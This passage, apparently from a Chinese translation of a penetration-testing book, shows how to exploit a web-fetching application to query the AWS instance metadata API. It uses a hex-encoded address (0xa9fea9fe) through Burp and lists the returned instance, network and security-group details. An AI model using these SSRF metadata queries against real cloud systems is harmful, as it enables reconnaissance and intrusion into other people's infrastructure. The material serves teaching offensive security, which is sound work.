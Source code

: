 ### 探索元数据

我们开始收集关于运行此网页获取应用程序的机器的基本信息，再次使用 Burp 的拦截模式。在拦截我们的请求后，我们将十六进制编码的元数据 IP 替换为原始请求的 URL，然后将 AWS 的元数据 API 名称附加到末尾，如 Listing 5-1 所示。

```
# AWS Region
http://0xa9fea9fe/latest/meta-data/placement/availability-zone
eu-west-1a

# Instance ID
http://0xa9fea9fe/latest/meta-data/instance-id
1 i-088c8e93dd5703ccc

# AMI ID
http://0xa9fea9fe/latest/meta-data/ami-id
2 ami-02df9ea15c1778c9c

# Public hostname
http://0xa9fea9fe/latest/meta-data/public-hostname
3 ec2-3-248-221-147.eu-west-1.compute.amazonaws.com
```

Listing 5-1：从元数据 API 获取的 Web 应用基本信息

从中我们看到示范应用运行在 `eu-west-1` 区域，这表示它位于亚马逊位于爱尔兰的数据中心之一。AWS 提供了数十个区域。尽管公司努力将其最重要的应用分布在多个区域，但辅助服务和有时的后端通常会集中在少数几个区域中。实例 ID 是分配给每个在 EC2 服务中启动的虚拟机的唯一标识符，其值为 `i-088c8e93dd5703ccc` 1。当执行针对运行广告应用程序的机器的 AWS API 调用时，这些信息可能会非常有用。

镜像 ID `ami-02df9ea15c1778c9c` 2 指的是用于运行该机器的快照，例如 Ubuntu 或 CoreOS 镜像。机器镜像可以是公开的（所有 AWS 客户都可用）或私有的（仅对特定账户可用）。这个特定的 AMI ID 是私有的，因为它无法在 AWS EC2 控制台上找到。如果该 AMI ID 不是私有的，我们本可以启动该快照的类似实例来测试未来的有效载荷或脚本。

最后，公共主机名为我们提供了直接通往运行示范应用程序（或 AWS 行话中的 *EC2 实例*）的路径，前提是本地防火墙规则允许我们访问它。该机器的公共 IP 可以从其规范主机名推导出来：`3.248.221.147` 3。

说到网络配置，让我们从元数据 API 获取防火墙配置，如 Listing 5-2 所示。了解现有的防火墙规则可以帮助我们推测出与该系统交互的其他主机以及可能运行的服务，即使它们并不对外公开。防火墙规则由名为 *安全组* 的对象进行管理。

```
# MAC address of the network interface
http://0xa9fea9fe/latest/meta-data/network/interfaces/macs/
06:a0:8f:8d:1c:2a

# AWS Owner ID
http://0xa9fea9fe/.../macs/06:a0:8f:8d:1c:2a/owner-id
886371554408

# Security groups
http://0xa9fea9fe/.../macs/06:a0:8f:8d:1c:2a/security-groups
elb_http_prod_eu-west-1
elb_https_prod_eu-west-1
common_ssh_private_eu-west-1
egress_internet_http_any

# Subnet ID where the instance lives
http://0xa9fea9fe/.../macs/06:a0:8f:8d:1c:2a/subnet-id
subnet-00580e48

# Subnet IP range
http://0xa9fea9fe/.../macs/06:a0:8f:8d:1c:2a/subnet-ipv4-cidr-block
172.31.16.0/20
```
